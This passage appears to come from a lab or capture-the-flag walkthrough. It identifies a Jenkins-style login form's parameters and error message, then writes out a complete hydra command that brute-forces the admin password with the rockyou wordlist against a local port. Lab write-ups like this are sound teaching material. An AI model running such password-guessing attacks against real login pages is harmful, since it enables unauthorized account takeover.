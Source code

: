 Next, from the form data of the request, we see that four parameters are sent: **j_username**, **j_password**, **from** and **Submit**.

![screenshot27](../assets/images/internal/screenshot27.png)

Lastly, we see that the error message upon providing incorrect credentials is: **Invalid username or password**

With these information, we can craft out our `hydra` command:

```
hydra -s 9999 -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password" -V
```

**Results:**

![screenshot28](../assets/images/internal/screenshot28.png)
